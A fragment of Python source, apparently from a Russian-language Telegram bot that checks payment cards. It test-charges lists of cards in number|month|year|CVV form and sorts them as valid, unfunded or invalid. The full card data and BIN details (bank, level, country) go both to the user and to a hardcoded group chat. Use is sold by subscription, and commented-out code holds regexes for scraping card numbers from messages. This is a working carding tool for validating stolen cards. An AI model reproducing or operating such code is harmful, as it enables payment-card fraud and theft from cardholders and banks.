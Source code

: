 <b>🌐 Тип:</b> {type}
<b>🏦 Банк:</b> {bank}
<b>⚛️ Уровень:</b> {level}
<b>{flag} Страна:</b> {country}''', parse_mode='HTML')
                                  await bot.send_message(-1001610053028,
                                                         f'''<b>✅ Новая валидка (-<code>{charge}$</code>)</b>
<b>💳 Карта:</b> <code>{asd[0]}|{asd[1]}|{asd[2]}|{asd[3]}</code>

<b>🌐 Тип:</b> {type}
<b>🏦 Банк:</b> {bank}
<b>⚛️ Уровень:</b> {level}
<b>{flag} Страна:</b> {country}''', parse_mode='HTML')
                            if result == 'nomoney':
                                  no_money += 1
                                  bin = asd[0]
                                  binqq, brand, country, flag, bank, level, type = await binchecker(bin)
                                  await bot.send_message(message.from_user.id, f'''<b>💳 Карта:</b> <code>{asd[0]}|{asd[1]}|{asd[2]}|{asd[3]}</code>
<b>👻 Результат:</b> <i>Списание (-{charge}$) 💵</i>

<b>🌐 Тип:</b> {type}
<b>🏦 Банк:</b> {bank}
<b>⚛️ Уровень:</b> {level}
<b>{flag} Страна:</b> {country}''', parse_mode='HTML')
                                  await bot.send_message(-1001610053028,
                                                         f'''<b>💳 Карта:</b> <code>{asd[0]}|{asd[1]}|{asd[2]}|{asd[3]}</code>
<b>👻 Результат:</b> <i>Списание (-{charge}$) 💵</i>

<b>🌐 Тип:</b> {type}
<b>🏦 Банк:</b> {bank}
<b>⚛️ Уровень:</b> {level}
<b>{flag} Страна:</b> {country}''', parse_mode='HTML')
                            if result == 'novalid':
                                novalid += 1
                            if result == 'neevalid':
                                error += 1
                    cardscount = novalid+error+valid+no_money
                    await db.add_card(cardscount, message.from_user.id)
                    await z.edit_text(
                        f'<b>Очередь #{random_queue}\n💳 Проверено {len(cc_list)} СС\n📊 Результаты проверки:\n❌ Невалидные: {novalid+error}\n✅ Валидные: {valid}\n💵 Нет денег: {no_money}</b>', parse_mode='HTML')
        else:
            await message.reply(f"<b>😕 У тебя нет подписки!</b>", parse_mode='html')

# @dp.message_handler(content_types=['text'])
# async def ultracc(message: types.Message):
#     if message.chat.type == "private":
#         cc_list_1 = re.findall(r'[0-9]{16}[|][0-9]{2}[|][0-9]{2}[|][0-9]{3}', message.text)
#         cc_list_2 = re.findall(r'[0-9]{16}[|][0-9]{2}[|]20[0-9]{2}[|][0-9]{3}', message.text)
#         cc_list_3 = re.findall(r'[0-9]{16}[/][0-9]{2}[/]20[0-9]{2}[/][0-9]{3}', message.text)